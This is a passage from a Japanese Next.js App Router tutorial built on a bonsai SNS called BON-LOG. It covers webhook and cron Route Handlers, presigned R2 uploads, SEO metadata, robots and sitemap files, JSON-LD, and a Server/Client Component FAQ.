export async function POST(request: NextRequest) {
  // 1. リクエストボディとシグネチャを取得
  const body = await request.text()
  const signature = request.headers.get('stripe-signature')

  if (!signature) {
    return NextResponse.json({ error: 'Missing signature' }, { status: 400 })
  }

  // 2. Webhook署名の検証（改ざん防止）
  let event: Stripe.Event
  try {
    event = stripe.webhooks.constructEvent(
      body,
      signature,
      process.env.STRIPE_WEBHOOK_SECRET!
    )
  } catch (err) {
    return NextResponse.json({ error: 'Invalid signature' }, { status: 400 })
  }

  // 3. イベントタイプに応じた処理
  switch (event.type) {
    case 'checkout.session.completed':
      // 決済完了 → 有料会員有効化
      break
    case 'customer.subscription.deleted':
      // 解約処理
      break
  }

  return NextResponse.json({ received: true })
}
```

```
【Webhook署名検証の流れ】

  Stripe                          BON-LOG
    |                                |
    |--- POST /api/webhooks/stripe ->|
    |    Body: { event data }        |
    |    stripe-signature: sig123    |
    |                                |
    |                    constructEvent(body, sig123, secret)
    |                    → ボディとシークレットからシグネチャを再計算
    |                    → sig123と一致するか検証
    |                    → 一致 = 改ざんされていない
    |                                |
    |<-- 200 { received: true } ---- |
```

### Cronジョブの実装

定期的に実行するバッチ処理です。GitHub Actions（`.github/workflows/cron.yml`）のスケジュール実行から呼び出されます。

```typescript
// app/api/cron/cleanup-events/route.ts（簡略版）

import { NextRequest, NextResponse } from 'next/server'
import { prisma } from '@/lib/db'

function validateCronSecret(request: NextRequest): boolean {
  const authHeader = request.headers.get('authorization')
  const cronSecret = process.env.CRON_SECRET
  return authHeader === `Bearer ${cronSecret}`
}

export async function GET(request: NextRequest) {
  // 認証チェック（CRON_SECRETの検証）
  if (!validateCronSecret(request)) {
    return NextResponse.json({ error: 'Unauthorized' }, { status: 401 })
  }

  // 6ヶ月前より古いイベントを削除
  const sixMonthsAgo = new Date()
  sixMonthsAgo.setMonth(sixMonthsAgo.getMonth() - 6)

  const result = await prisma.event.deleteMany({
    where: {
      OR: [
        { endDate: { not: null, lt: sixMonthsAgo } },
        { endDate: null, startDate: { lt: sixMonthsAgo } },
      ],
    },
  })

  return NextResponse.json({
    success: true,
    deletedCount: result.count,
  })
  // 実行結果: { "success": true, "deletedCount": 15 }（15件の古いイベントが削除された場合）
}
```

### Route Handlers vs Server Actions

```
【Route Handlers と Server Actions の使い分け】

  Server Actions（推奨）:
  ├── フォーム送信
  ├── データの作成・更新・削除
  ├── 型安全（TypeScriptの型が自動的に共有）
  └── revalidatePath/revalidateTag との統合が容易

  Route Handlers:
  ├── 外部サービスからのWebhook
  ├── Cronジョブ
  ├── ファイルアップロード
  ├── ヘルスチェック
  ├── クライアントからのポーリング（未読バッジ数等）
  └── 外部APIとの連携（署名検証が必要な場合等）

  判断基準:
  「ブラウザのフォームから呼ぶ？」
    Yes → Server Actions
    No  → Route Handlers
```

### 未読バッジ数取得API（ポーリング型）

クライアントから定期的にアクセスして未読数を取得するRoute Handlerです。ヘッダーの通知バッジに表示する数値を返します。

```typescript
// app/api/badges/route.ts

import { NextResponse } from 'next/server'
import { auth } from '@/lib/auth'
import { prisma } from '@/lib/db'

export async function GET() {
  try {
    // [1] 認証チェック
    const session = await auth()
    if (!session?.user?.id) {
      // 未認証の場合はゼロを返す（エラーにしない）
      return NextResponse.json({ notifications: 0, messages: 0 })
    }

    const userId = session.user.id

    // [2] ミュートしているユーザーのIDを取得
    // ミュートユーザーからの通知は未読カウントに含めない
    const mutedUsers = await prisma.mute.findMany({
      where: { muterId: userId },
      select: { mutedId: true },
    })
    const mutedUserIds = mutedUsers.map((m) => m.mutedId)

    // [3] 未読通知数（ミュートユーザーを除外）
    const unreadNotifications = await prisma.notification.count({
      where: {
        userId,
        isRead: false,
        ...(mutedUserIds.length > 0 && {
          actorId: { notIn: mutedUserIds },
        }),
      },
    })

    // [4] 未読メッセージ数
    // ... (会話の参加者情報と最終既読時刻を比較)

    return NextResponse.json({
      notifications: unreadNotifications,
      messages: unreadMessages,
    })
  } catch (error) {
    console.error('Badge API error:', error)
    // エラー時もゼロを返す（UIが壊れないように）
    return NextResponse.json({ notifications: 0, messages: 0 })
  }
}
```

```
【ポーリング型APIの設計ポイント】

  1. エラー時もデフォルト値を返す
     └── { notifications: 0, messages: 0 }
     └── クライアントのUIが壊れない

  2. 認証失敗時も200で返す（401にしない）
     └── ポーリング時に毎回リダイレクトが発生するのを防止
     └── ログアウト状態でもエラーにならない

  3. ミュートユーザーの考慮
     └── ブロック/ミュート設定が通知にも反映される

  4. クライアント側の呼び出し:
     └── setInterval で30秒ごとに fetch('/api/badges')
     └── または React Query の refetchInterval で自動リフレッシュ
```

### 署名付きURL生成API（大容量ファイルアップロード用）

Vercelのペイロード制限（4.5MB）を回避するため、Cloudflare R2への直接アップロード用の署名付きURLを生成するAPIです。

```typescript
// app/api/upload/presigned/route.ts（簡略版）

export async function POST(request: NextRequest) {
  // [1] 認証チェック
  const session = await auth()
  if (!session?.user?.id) {
    return NextResponse.json({ error: '認証が必要です' }, { status: 401 })
  }

  const body = await request.json()
  const { contentType, fileSize, folder = 'posts' } = body

  // [2] フォルダパラメータの検証（パストラバーサル防止）
  const ALLOWED_FOLDERS = ['posts', 'post-videos', 'avatars', 'headers']
  if (!ALLOWED_FOLDERS.includes(folder)) {
    return NextResponse.json({ error: '無効なフォルダです' }, { status: 400 })
  }

  // [3] MIMEタイプ・ファイルサイズチェック
  if (!ALLOWED_VIDEO_TYPES.includes(contentType)) {
    return NextResponse.json({ error: '許可されていないファイル形式です' }, { status: 400 })
  }
  if (fileSize > MAX_VIDEO_SIZE) {
    return NextResponse.json({ error: '動画は80MB以下にしてください' }, { status: 400 })
  }

  // [4] AWS SDKを動的インポート（使用時のみ読み込み）
  const { S3Client, PutObjectCommand } = await import('@aws-sdk/client-s3')
  const { getSignedUrl } = await import('@aws-sdk/s3-request-presigner')

  // [5] S3クライアント作成（R2はS3互換API）
  const s3Client = new S3Client({
    region: 'auto',
    endpoint: `https://${accountId}.r2.cloudflarestorage.com`,
    credentials: { accessKeyId, secretAccessKey },
  })

  // [6] ユニークなファイル名を生成
  const uniqueName = `${folder}/${Date.now()}-${crypto.randomBytes(8).toString('hex')}${ext}`

  // [7] 署名付きURLを生成（有効期限: 1時間）
  const presignedUrl = await getSignedUrl(s3Client, command, { expiresIn: 3600 })

  return NextResponse.json({
    presignedUrl,  // クライアントがここにPUTでアップロードする
    fileUrl,       // アップロード完了後のファイルの公開URL
    key: uniqueName,
  })
}
```

```
【署名付きURLアップロードの流れ】

  ブラウザ                     BON-LOG API              Cloudflare R2
    |                            |                         |
    |[1] POST /api/upload/presigned                        |
    |    { contentType: 'video/mp4',                       |
    |      fileSize: 50000000 }  |                         |
    |                            |                         |
    |                        認証チェック                    |
    |                        バリデーション                  |
    |                        署名付きURL生成                 |
    |                            |                         |
    |[2] { presignedUrl, fileUrl }                         |
    |<-----------------------    |                         |
    |                            |                         |
    |[3] PUT presignedUrl (動画データ直接送信)             |
    |──────────────────────────────────────────────────>   |
    |                            |                    ファイル保存
    |[4] 200 OK                  |                         |
    |<──────────────────────────────────────────────────   |
    |                            |                         |
    |[5] 投稿作成（fileUrl を含む）                         |
    |--- Server Action -------->|                         |
    |                            |                         |

  メリット:
  ├── Vercelの4.5MB制限を回避（大きな動画ファイルも可能）
  ├── サーバーの負荷が少ない（データが直接R2に送信される）
  └── 署名付きURLは1時間で無効化（セキュリティ）
```

### Route Handlerの設定オプション

Route Handlerには、ファイルレベルで設定できるオプションがあります。

```typescript
// app/api/cron/publish-scheduled/route.ts

// Cron用 Route Handler 設定
export const dynamic = 'force-dynamic'  // 常に動的実行（キャッシュなし）
export const maxDuration = 60           // 最大実行時間: 60秒（デフォルトは10秒）
```

```
【Route Handlerの設定オプション一覧】

  | オプション | 説明 |
  |-----------|------|
  | dynamic | 'auto' / 'force-dynamic' / 'error' / 'force-static' → キャッシュ動作の制御 |
  | maxDuration | 数値（秒） → サーバーレス関数のタイムアウト（Hobby: 最大10秒、Pro: 最大300秒） |
  | revalidate | 数値（秒）/ false → GETレスポンスの再検証間隔 |
  | runtime | 'nodejs' / 'edge' → 実行ランタイムの指定 |

  BON-LOGでの使用例:
  ├── Cronジョブ: dynamic = 'force-dynamic', maxDuration = 60
  │   → 常に動的実行、バッチ処理に十分な実行時間
  ├── メンテナンスAPI: dynamic = 'force-dynamic'
  │   → 常に最新のメンテナンス状態を返す
  └── ヘルスチェック: デフォルト（dynamic = 'auto'）
      → Next.jsが自動判断
```

### よくあるトラブルと解決法

| トラブル | 原因 | 解決法 |
|---------|------|--------|
| route.tsとpage.tsxが同じディレクトリに存在 | 同一パスでRoute HandlerとPageは共存不可 | ディレクトリを分ける |
| POSTが405 Method Not Allowed | `POST`関数がexportされていない | `export async function POST`を確認 |
| Webhookの署名検証が失敗 | `request.json()`で先にボディを消費 | `request.text()`で生のボディを取得 |
| Cronジョブが認証エラー | CRON_SECRETが設定されていない | 環境変数を正しく設定 |
| 10秒でタイムアウト | maxDurationが設定されていない | `export const maxDuration = 60` を追加 |
| GETの結果がキャッシュされる | Next.jsのデフォルト動作 | `export const dynamic = 'force-dynamic'` を追加 |

### 理解度チェック

<details>
<summary>Q1: Route Handlerで `request.json()` と `request.formData()` はどう使い分けますか？</summary>

**A:** `request.json()`はContent-Typeが`application/json`のリクエスト（JSONデータの送受信）で使用します。`request.formData()`はContent-Typeが`multipart/form-data`のリクエスト（ファイルアップロード等）で使用します。ファイルアップロードではFormDataでファイルを取得し、JSON APIではオブジェクトを直接取得できます。
</details>

<details>
<summary>Q2: Webhook用のRoute Handlerにproxy.ts（Middleware）の認証チェックが適用されないようにするにはどうしますか？</summary>

**A:** BON-LOGでは2つの方法を組み合わせています。(1) proxy.tsのmatcherでAPIルートの一部を除外するか、(2) proxy.ts内部でWebhookパス（`/api/webhooks/`等）を判定してOrigin検証をスキップします。Webhookは外部サービスからの呼び出しのため、通常の認証ではなくWebhook固有の署名検証（Stripe-Signature等）で認証を行います。
</details>

---

## 5.17 Metadata & SEO

### このセクションで学ぶこと

- 静的メタデータと動的メタデータ（generateMetadata）の実践的な使い方
- robots.tsとsitemap.tsの実装
- JSON-LD構造化データの活用
- BON-LOGでのSEO戦略

### メタデータの全体像

5.9節では基本的なMetadataを学びましたが、ここではBON-LOGの実際のSEO実装を詳しく解説します。

```
【Next.jsのSEO機能一覧】

  静的SEO
  ├── metadata オブジェクト    → 固定のtitle, description
  ├── robots.ts               → 検索エンジンクローラーの制御
  ├── sitemap.ts              → サイトマップ生成
  └── JSON-LD構造化データ      → リッチリザルト表示

  動的SEO
  ├── generateMetadata()      → ページごとの動的メタデータ
  └── OG画像の動的生成         → ページに応じたOGP画像

  メタデータの優先順位:
  子ページの metadata > 親レイアウトの metadata
  （子ページで上書きできる）
```

### ルートレイアウトのメタデータ

BON-LOGのルートレイアウト（app/layout.tsx）では、サイト全体のデフォルトメタデータを設定しています。

```typescript
// app/layout.tsx

export const metadata: Metadata = {
  // テンプレート機能：子ページのtitleは「{ページ名} - BON-LOG」形式になる
  title: {
    default: 'BON-LOG - 盆栽愛好家のためのコミュニティSNS',
    template: '%s - BON-LOG',
  },
  description: '盆栽を愛する全ての人が集まり、知識や経験を共有できるSNSプラットフォーム。',
  keywords: ['盆栽', 'SNS', 'コミュニティ', '盆栽園', 'イベント'],
  authors: [{ name: 'BON-LOG' }],

  // メタデータのベースURL（相対パスの解決に使用）
  metadataBase: new URL(baseUrl),

  // 正規URL・RSSフィード
  alternates: {
    canonical: '/',
    types: {
      'application/rss+xml': '/feed.xml',
    },
  },

  // Open Graph設定（Facebook, LINE等での共有時に使用）
  openGraph: {
    type: 'website',
    locale: 'ja_JP',
    url: baseUrl,
    siteName: 'BON-LOG',
    title: 'BON-LOG - 盆栽愛好家のためのコミュニティSNS',
    description: '盆栽を愛する全ての人が集まり、知識や経験を共有できるSNSプラットフォーム。',
    images: [{ url: '/api/og', width: 1200, height: 630 }],
  },

  // Twitter Cards設定
  twitter: {
    card: 'summary_large_image',
    title: 'BON-LOG - 盆栽愛好家のためのコミュニティSNS',
    images: ['/api/og'],
  },

  // 検索エンジンクローラー設定
  robots: {
    index: true,
    follow: true,
    googleBot: {
      index: true,
      follow: true,
      'max-video-preview': -1,
      'max-image-preview': 'large',
      'max-snippet': -1,
    },
  },

  // PWAマニフェスト
  manifest: '/site.webmanifest',
}
```

```
【titleテンプレートの動作】

  ルートレイアウト:
  title: {
    default: 'BON-LOG - 盆栽愛好家のためのコミュニティSNS',  ← トップページ用
    template: '%s - BON-LOG',                                ← 子ページ用テンプレート
  }

  子ページ:
  title: '田中さんのプロフィール'

  最終的なHTMLタイトル:
  <title>田中さんのプロフィール - BON-LOG</title>
                                 ↑ テンプレートの %s が置換された
```

### 動的メタデータ（generateMetadata）

ユーザープロフィールページのように、URLパラメータに応じてメタデータが変わる場合は`generateMetadata`関数を使います。

```typescript
// app/(main)/users/[id]/page.tsx

import { Metadata } from 'next'
import { prisma } from '@/lib/db'

type Props = {
  params: Promise<{ id: string }>
}

export async function generateMetadata({ params }: Props): Promise<Metadata> {
  const { id } = await params
  const baseUrl = process.env.NEXT_PUBLIC_APP_URL || 'https://bon-log.com'

  // メタデータ用の最小限のフィールドのみ取得
  const user = await prisma.user.findUnique({
    where: { id },
    select: { nickname: true, bio: true, avatarUrl: true },
  })

  if (!user) {
    return { title: 'ユーザーが見つかりません' }
  }

  const title = `${user.nickname}さんのプロフィール`
  const description = user.bio || `${user.nickname}さんのBON-LOGプロフィールページ`
  const ogImage = user.avatarUrl || '/og-image.jpg'

  return {
    title,  // テンプレート適用で「{nickname}さんのプロフィール - BON-LOG」になる
    description,
    openGraph: {
      type: 'profile',
      title,
      description,
      url: `${baseUrl}/users/${id}`,
      images: [{ url: ogImage, width: 400, height: 400 }],
    },
    twitter: {
      card: 'summary',
      title,
      description,
      images: [ogImage],
    },
    alternates: {
      canonical: `${baseUrl}/users/${id}`,
    },
  }
}
```

```
【generateMetadataの実行タイミング】

  ブラウザ → /users/user123 にアクセス
       |
       v
  Next.jsサーバー
  [1] generateMetadata({ params: { id: 'user123' } }) 実行
      → DBからユーザー情報を取得
      → <head>内のmetaタグを生成
  [2] ページコンポーネント実行
      → ページ本体をレンダリング

  ※ generateMetadataとページコンポーネントが同じデータを取得する場合、
    React cacheでメモ化すると効率的
```

### robots.ts - クローラー制御

robots.tsはNext.jsが自動的に`/robots.txt`として配信するファイルです。

```typescript
// app/robots.ts

import { MetadataRoute } from 'next'

export default function robots(): MetadataRoute.Robots {
  const baseUrl = process.env.NEXT_PUBLIC_APP_URL || 'https://bon-log.com'

  return {
    rules: [
      {
        userAgent: '*',        // すべてのクローラー
        allow: '/',            // サイト全体を許可
        disallow: [
          '/admin/',           // 管理画面
          '/api/',             // APIエンドポイント
          '/login',            // 認証ページ
          '/register',
          '/settings/',        // 設定ページ
          '/feed',             // タイムライン（認証必須）
          '/bookmarks',        // ブックマーク
          '/notifications',    // 通知
          '/messages/',        // DM
          '/*.json$',          // JSONファイル
          '/*?*',              // クエリパラメータ付きURL
        ],
      },
      {
        userAgent: 'Googlebot', // Google専用ルール
        allow: '/',
        disallow: [
          '/admin/',
          '/api/',
          '/login',
          '/register',
          '/settings/',
          '/feed',
          // Googleにはより緩い制限
        ],
      },
    ],
    sitemap: `${baseUrl}/sitemap.xml`,
  }
}
```

```
【robots.tsの出力イメージ】

  GET /robots.txt の応答:

  User-Agent: *
  Allow: /
  Disallow: /admin/
  Disallow: /api/
  Disallow: /login
  Disallow: /settings/
  Disallow: /feed
  ...

  User-Agent: Googlebot
  Allow: /
  Disallow: /admin/
  ...

  Sitemap: https://bon-log.com/sitemap.xml

  ※ クローラーに「ここはインデックスしないで」と伝える
  ※ 認証が必要なページやAPIは除外するのが一般的
```

### sitemap.ts - サイトマップ生成

sitemap.tsはNext.jsが自動的に`/sitemap.xml`として配信するファイルです。データベースから動的にURLリストを生成します。

```typescript
// app/sitemap.ts

import { MetadataRoute } from 'next'
import { prisma } from '@/lib/db'

export const dynamic = 'force-dynamic' // 常に最新データで生成

export default async function sitemap(): Promise<MetadataRoute.Sitemap> {
  const baseUrl = process.env.NEXT_PUBLIC_APP_URL || 'https://bon-log.com'

  // 静的ページ
  const staticPages: MetadataRoute.Sitemap = [
    { url: baseUrl, lastModified: new Date(), changeFrequency: 'daily', priority: 1 },
    { url: `${baseUrl}/privacy`, lastModified: new Date(), changeFrequency: 'monthly', priority: 0.3 },
    { url: `${baseUrl}/terms`, lastModified: new Date(), changeFrequency: 'monthly', priority: 0.3 },
    { url: `${baseUrl}/shops`, lastModified: new Date(), changeFrequency: 'daily', priority: 0.8 },
    { url: `${baseUrl}/events`, lastModified: new Date(), changeFrequency: 'daily', priority: 0.8 },
  ]

  // 公開ユーザーページ（停止されていないユーザーのみ）
  const users = await prisma.user.findMany({
    where: { isPublic: true, isSuspended: false },
    select: { id: true, updatedAt: true },
    take: 1000,
    orderBy: { updatedAt: 'desc' },
  })

  const userPages = users.map(user => ({
    url: `${baseUrl}/users/${user.id}`,
    lastModified: user.updatedAt,
    changeFrequency: 'weekly' as const,
    priority: 0.6,
  }))

  // 投稿ページ（公開ユーザーの投稿、リポストは除外）
  const posts = await prisma.post.findMany({
    where: {
      user: { isPublic: true, isSuspended: false },
      repostPostId: null,
    },
    select: { id: true, createdAt: true },
    take: 5000,
    orderBy: { createdAt: 'desc' },
  })

  const postPages = posts.map(post => ({
    url: `${baseUrl}/posts/${post.id}`,
    lastModified: post.createdAt,
    changeFrequency: 'monthly' as const,
    priority: 0.5,
  }))

  // 盆栽園ページ、イベントページも同様に追加...

  return [...staticPages, ...userPages, ...postPages, ...]
}
```

```
【sitemap.tsの設定値の意味】

  priority（優先度）:

  | ページ | priority | 理由 |
  |--------|----------|------|
  | トップページ | 1.0 | 最重要ページ |
  | 盆栽園一覧 | 0.8 | 検索流入の主要ページ |
  | イベント一覧 | 0.8 | 検索流入の主要ページ |
  | 盆栽園詳細 | 0.7 | 個別コンテンツ |
  | ユーザーページ | 0.6 | 個別コンテンツ |
  | 投稿詳細 | 0.5 | 数が多く重要度は中 |
  | 利用規約 | 0.3 | 低頻度アクセス |

  changeFrequency（変更頻度のヒント）:
  ├── 'daily'   → トップページ、一覧ページ
  ├── 'weekly'  → ユーザープロフィール、盆栽園詳細
  └── 'monthly' → 投稿詳細、利用規約

  ※ あくまでクローラーへの「ヒント」であり、強制力はない
```

### JSON-LD構造化データ

JSON-LD（JavaScript Object Notation for Linked Data）は、検索エンジンにコンテンツの意味的な情報を伝えるための仕組みです。Googleのリッチリザルト（検索結果に表示される拡張情報）に使用されます。

```typescript
// components/seo/JsonLd.tsx

export function OrganizationJsonLd({ name, url, logo, description }) {
  const jsonLd = {
    '@context': 'https://schema.org',
    '@type': 'Organization',
    name,
    url,
    logo,
    description,
  }

  return (
    <script
      type="application/ld+json"
      dangerouslySetInnerHTML={{ __html: JSON.stringify(jsonLd) }}
    />
  )
}

export function WebSiteJsonLd({ name, url, description, searchUrl }) {
  const jsonLd = {
    '@context': 'https://schema.org',
    '@type': 'WebSite',
    name,
    url,
    description,
    potentialAction: {
      '@type': 'SearchAction',
      target: `${searchUrl}{search_term_string}`,
      'query-input': 'required name=search_term_string',
    },
  }

  return (
    <script
      type="application/ld+json"
      dangerouslySetInnerHTML={{ __html: JSON.stringify(jsonLd) }}
    />
  )
}
```

BON-LOGではルートレイアウトでOrganization（組織）とWebSite（ウェブサイト）の構造化データを出力しています。

```typescript
// app/layout.tsx

export default function RootLayout({ children }) {
  return (
    <html lang="ja">
      <body>
        {/* 組織情報 → Googleナレッジパネル */}
        <OrganizationJsonLd
          name="BON-LOG"
          url={baseUrl}
          logo={`${baseUrl}/logo.png`}
          description="盆栽愛好家のためのコミュニティSNS"
        />
        {/* サイト情報 → サイトリンク検索ボックス */}
        <WebSiteJsonLd
          name="BON-LOG"
          url={baseUrl}
          description="盆栽を愛する全ての人が集まり、知識や経験を共有できるSNS"
          searchUrl={`${baseUrl}/search?q=`}
        />
        <Providers>{children}</Providers>
      </body>
    </html>
  )
}
```

```
【JSON-LD構造化データの種類と用途（BON-LOG）】

  | 構造化データ | 使用場所 | 効果 |
  |-------------|----------|------|
  | Organization | ルートレイアウト | ナレッジパネルに組織情報表示 |
  | WebSite | ルートレイアウト | サイト内検索ボックス表示 |
  | Person | ユーザープロフィールページ | ユーザー情報のリッチリザルト |
  | LocalBusiness | 盆栽園詳細ページ | 地図・営業時間等の表示 |
  | Event | イベント詳細ページ | イベント日時・場所の表示 |
  | Breadcrumb | 各ページ | パンくずリストの表示 |
```

### Canonical URL（正規URL）の設定

Canonical URLは「このページの正式なURLはこれです」と検索エンジンに伝えるための仕組みです。同じコンテンツが複数のURLでアクセスできる場合に、重複コンテンツとして扱われることを防ぎます。

```
【Canonical URLが必要な理由】

  同じページが複数のURLでアクセスできる場合:

  https://bon-log.com/posts/abc123
  https://bon-log.com/posts/abc123?ref=twitter
  https://bon-log.com/posts/abc123?utm_source=google
  https://www.bon-log.com/posts/abc123

  → 検索エンジンはこれらを「別のページ」と認識する可能性がある
  → SEO的にページの評価が分散してしまう（希釈効果）

  Canonical URLを設定すると:
  <link rel="canonical" href="https://bon-log.com/posts/abc123" />
  → すべてのバリエーションが1つのURLに集約される
  → SEOの評価が正規URLに集中する
```

BON-LOGでの設定例:

```typescript
// app/(main)/users/[id]/page.tsx の generateMetadata内

return {
  title,
  description,
  // Canonical URL: クエリパラメータなしの正規URLを指定
  alternates: {
    canonical: `${baseUrl}/users/${id}`,
  },
}
```

### metadataBase の役割

`metadataBase`はメタデータ内で使用される相対パスを解決するためのベースURLです。

```typescript
// app/layout.tsx
export const metadata: Metadata = {
  metadataBase: new URL('https://bon-log.com'),
  // これにより、以下の相対パスが自動的に絶対URLに変換される:
  // '/api/og' → 'https://bon-log.com/api/og'
  // '/logo.png' → 'https://bon-log.com/logo.png'

  openGraph: {
    images: [{ url: '/api/og' }],  // 相対パスでOK
  },
}
```

```
【metadataBaseの動作】

  metadataBase を設定しない場合:
  openGraph.images: '/api/og'
  → <meta property="og:image" content="/api/og" />
  → SNSのクローラーが相対パスを解決できずエラー

  metadataBase を設定した場合:
  openGraph.images: '/api/og'
  → <meta property="og:image" content="https://bon-log.com/api/og" />
  → SNSのクローラーが正しく画像を取得できる
```

### OGP（Open Graph Protocol）画像が表示される仕組み

SNSでURLを共有した時に表示されるカード画像（OGP画像）がどのように機能するかを理解しましょう。

```
【OGP画像の表示フロー】

  [1] ユーザーがSNSにBON-LOGのURLを投稿
      → https://bon-log.com/posts/abc123

  [2] SNSのクローラーがURLにアクセス
      → HTMLの<head>内のmetaタグを取得

  [3] metaタグからOGP情報を抽出
      <meta property="og:title" content="黒松の手入れ - BON-LOG" />
      <meta property="og:description" content="今日の黒松の..." />
      <meta property="og:image" content="https://bon-log.com/api/og?id=abc123" />

  [4] OGP画像URLにアクセスして画像を取得
      → /api/og?id=abc123 が画像を動的に生成して返す

  [5] SNSのタイムラインにカード表示
      +--------------------------------+
      |  [    OGP画像（1200x630px）   ] |
      |  黒松の手入れ - BON-LOG         |
      |  今日の黒松の剪定作業を...      |
      |  bon-log.com                    |
      +--------------------------------+
```

### SEO対策チェックリスト

```
【Next.js SEO 実装チェックリスト】

  □ ルートレイアウトにデフォルトメタデータを設定
    └── title（テンプレート付き）、description、OGP、Twitter Cards

  □ 動的ページにgenerateMetadataを実装
    └── ユーザーページ、投稿詳細、盆栽園詳細、イベント詳細

  □ robots.ts を作成
    └── 管理画面、API、認証ページをdisallow

  □ sitemap.ts を作成
    └── 静的ページ + DBから動的に生成したURL

  □ JSON-LD構造化データを配置
    └── Organization, WebSite, LocalBusiness, Event, Person

  □ canonical URL を設定
    └── alternates.canonical で重複コンテンツを防止

  □ next/image で画像を最適化
    └── alt属性、sizes属性を適切に設定

  □ lang属性を設定
    └── <html lang="ja">

  □ metadataBase を設定
    └── 相対パスが正しく解決されるように

  □ OGP画像を設定
    └── 静的デフォルト画像 + 動的生成（投稿・ユーザーページ）

  □ Twitter Cardsを設定
    └── summary_large_image（大きなカード表示）
```

### 理解度チェック

<details>
<summary>Q1: robots.tsとsitemap.tsの違いは何ですか？</summary>

**A:** robots.tsは検索エンジンのクローラーに「どのページをクロールしてよいか/してほしくないか」を伝えるファイルです（`/robots.txt`として配信）。一方、sitemap.tsはサイト内のすべてのページのURLリストを提供するファイルです（`/sitemap.xml`として配信）。robots.tsはアクセス制御、sitemap.tsはページの発見を助ける役割です。両者は補完的な関係にあり、robots.tsでdisallowしたページはsitemap.tsにも含めないのが一般的です。
</details>

<details>
<summary>Q2: sitemap.tsで `export const dynamic = 'force-dynamic'` を設定する理由は何ですか？</summary>

**A:** サイトマップはデータベースから最新のユーザー・投稿・盆栽園・イベント情報を取得して動的に生成する必要があります。`force-dynamic`を設定しないと、Next.jsがビルド時に静的に生成しようとしますが、ビルド時にはデータベース接続ができないためエラーになります。`force-dynamic`により、毎リクエスト時に最新データからサイトマップを生成します。
</details>

---

## 5.18 よくある質問（FAQ）

### このセクションで学ぶこと

- Next.js App Router開発でよく遭遇する疑問と解決策
- Server ComponentsとClient Componentsに関する混乱の解消
- データフェッチ・キャッシュ・認証に関する実践的なQ&A
- BON-LOG開発で実際に直面した問題とその解決方法

### Server Components / Client Components に関するFAQ

<details>
<summary>Q1: 「'use client'を付けたコンポーネントの中で、Server Componentを使えますか？」</summary>

**A:** 直接インポートして使うことはできません。しかし、**childrenやpropsとして渡す**ことで、Client ComponentがServer Componentを「ラップ」するパターンは可能です。

```typescript
// ❌ できない: Client ComponentがServer Componentを直接インポート
'use client'
import { ServerComponent } from './ServerComponent'  // Server Component

export function ClientWrapper() {
  return <ServerComponent />  // エラー！
}

// ✅ できる: childrenとしてServer Componentを渡す
// app/layout.tsx (Server Component)
export default function Layout({ children }: { children: React.ReactNode }) {
  return (
    <ClientSidebar>      {/* Client Component */}
      {children}          {/* Server Component を含められる */}
    </ClientSidebar>
  )
}
```

```
【Server/Client Componentの包含関係】

  ✅ Server → Client → children(Server)
  Server Componentが外側にあり、Client Componentの中に
  childrenとしてServer Componentを渡す

  ✅ Server → Server → Client
  Server Componentの中にClient Componentを配置する
  （最も一般的なパターン）

  ❌ Client → import Server
  Client ComponentがServer Componentを直接importする
  → Server Componentが自動的にClient Componentとして扱われる
```

このパターンは「Compositionパターン」と呼ばれ、Next.js App Routerの最も重要な設計原則の一つです。BON-LOGでも、レイアウトコンポーネント（Server Component）がサイドバー（Client Component）を配置し、そのchildrenとしてページコンテンツ（Server Component）を渡しています。
</details>

<details>
<summary>Q2: 「Server Componentで useState や useEffect を使おうとしてエラーになります。どう対処すべきですか？」</summary>

**A:** `useState`や`useEffect`はReact Hooksであり、Client Componentでのみ使用可能です。対処法は以下の通りです。

```
【判断フローチャート】

  そのコンポーネントで useState / useEffect が必要？
    |
    |--- Yes → 'use client' を付ける
    |          ただし、コンポーネント全体を
    |          Client Componentにしない
    |          → インタラクティブな部分だけを
    |            別コンポーネントに切り出す
    |
    |--- No  → Server Componentのまま
              データ取得は async/await で直接行う
```

```typescript
// ❌ 悪い例: ページ全体をClient Componentにする
'use client'
export default function PostPage() {
  const [liked, setLiked] = useState(false)
  // ... データ取得もクライアント側で行う必要がある
}

// ✅ 良い例: インタラクティブ部分だけを切り出す
// app/(main)/posts/[id]/page.tsx (Server Component)
export default async function PostPage({ params }: { params: Promise<{ id: string }> }) {
  const { id } = await params
  const post = await getPost(id)  // サーバーで直接データ取得
  return (
    <div>
      <PostContent post={post} />        {/* Server Component */}
      <LikeButton postId={id} />          {/* Client Component */}
      <CommentSection postId={id} />      {/* Client Component */}
    </div>
  )
}

// components/post/LikeButton.tsx (Client Component)
'use client'
export function LikeButton({ postId }: { postId: string }) {
  const [liked, setLiked] = useState(false)
  return <button onClick={() => setLiked(!liked)}>...</button>
}
```

**ポイント**: Client Componentは「できるだけ末端（リーフ）に配置」するのが原則です。データ表示はServer Component、ユーザー操作はClient Componentという分担を意識しましょう。
</details>

<details>
<summary>Q3: 「Client Componentで async/await を使ってデータを取得してはいけないのですか？」</summary>

**A:** 技術的には可能ですが、Server Componentでのデータ取得が推奨されます。理由は以下の通りです。

```
【データ取得: Server Component vs Client Component】

  Server Component でのデータ取得:
  ✅ サーバー上で直接DBにアクセス（高速）
  ✅ APIキーなどの機密情報がクライアントに漏れない
  ✅ 初回表示時にHTMLにデータが含まれる（SEO有利）
  ✅ JavaScriptバンドルサイズが小さい

  Client Component でのデータ取得:
  ⚠️ fetch() や React Query でAPIを呼ぶ必要がある
  ⚠️ ローディング状態の管理が必要
  ⚠️ 初回表示はスケルトン/スピナーになる（SEO不利）

  Client Component で取得すべきケース:
  ├── リアルタイムデータ（ポーリング、WebSocket）
  ├── ユーザー操作に応じたデータ（検索結果、無限スクロール）
  └── 認証後にしか取得できないデータのリフレッシュ
```

BON-LOGでは、タイムラインの初期データはServer Componentで取得し、追加データの読み込み（無限スクロール）はClient Componentで行っています。
</details>

<details>
<summary>Q4: 「Server ActionとRoute Handler（API Route）はどう使い分けるのですか？」</summary>

**A:** 以下の基準で判断します。

```
【Server Action vs Route Handler の判断基準】

  データの変更操作？（作成・更新・削除）
    |
    |--- Yes → ブラウザのフォームから呼ぶ？
    |            |
    |            |--- Yes → Server Actions を使う
    |            |          （型安全、revalidate統合が容易）
    |            |
    |            |--- No  → Route Handler を使う
    |                       （外部サービスから呼ばれる場合）
    |
    |--- No → データの読み取りのみ？
              |
              |--- Server Componentで取得可能 → 直接 async/await
              |--- Client Componentから取得  → Route Handler（GET）

  BON-LOGでの実例:

  | 操作 | 方式 |
  |------|------|
  | 投稿の作成・編集 | Server Actions |
  | いいね・ブックマーク | Server Actions |
